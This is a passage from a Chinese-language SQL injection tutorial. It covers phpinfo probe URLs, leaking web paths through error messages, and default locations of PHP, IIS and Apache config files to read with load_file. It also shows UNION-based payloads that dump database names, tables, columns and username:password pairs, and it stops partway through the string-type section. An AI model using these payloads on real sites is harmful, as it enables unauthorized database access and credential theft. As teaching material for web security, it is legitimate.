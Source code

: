```
www.xxx.com/test.php
www.xxx.com/ceshi.php
www.xxx.com/info.php
www.xxx.com/phpinfo.php
www.xxx.com/php_info.php
www.xxx.com/1.php

```

**漏洞报错**

包括单引号爆路径和错误参数值爆路径。对于单引号爆路径，直接在URL后面加单引号（例如：www.xxx.com/news.php?id=149'），要求单引号没有被过滤服务器默认返回错误信息；对于错误参数值爆路径，将要提交的参数值改成错误值（例如：www.xxx.com/researcharchive.php?id=-1），比如-1、-99999、…等，单引号被过滤时不妨试试。


**平台配置文件**
如果存在Sql注入点有文件读取权限，就可以手工`load_file`或工具读取配置文件，再从中寻找路径信息。各平台下Web服务器和PHP的配置文件默认路径可以上网查。

```
Windows:
c:\windows\php.ini                                  // php配置文件
c:\windows\system32\inetsrv\MetaBase.xml            // IIS虚拟主机配置文件
Linux:
/etc/php.ini                                        // php配置文件
/etc/httpd/conf/httpd.conf                          // Apache配置文件
/usr/local/apache/conf/extra/httpd-vhosts.conf      // 虚拟目录配置文件
...

```

***Sql注入类型***
**1、按照注入点类型来分类**
**● 数字型注入点**
类似结构 `http://xxx.com/users.php?id=1` 基于此种形式的注入，一般被叫做数字型注入点，缘由是其注入点 id 类型为数字，在大多数的网页中，诸如查看用户个人信息，查看文章等，大都会使用这种形式的结构传递id等信息，交给后端，查询出数据库中对应的信息，返回给前台。这一类的 SQL 语句原型大概为 "select * from 表名 where id=1" 若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：

```
select * from 表名 where id=1 and 1=1
# 数字型驻点常见的注入语句(Payload)
# 查询数据库名和版本
id=-1 union select 1,database(),version() --+    
# 查询指定数据库中的表名
id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security') --+   
# 查询指定数据库中指定表名中的列名字段
id=-1 union select 1,database(),(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users') --+
# 查询指定表中的数据
id=-1 union select 1,database(),(select group_concat(username,':',password) from secyrity.users) --+  

```

**● 字符型注入点**
类似结构 `http://xxx.com/users.php?name=admin` 这种形式，其注入点 `name` 类型为字符类型，所以叫`字符型注入点`。这一类的 SQL 语句原型大概为 `"select * from 表名 where name='admin'"` 值得注意的是这里相比于数字型注入类型的sql语句原型多了引号，可以是单引号或者是双引号。若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：
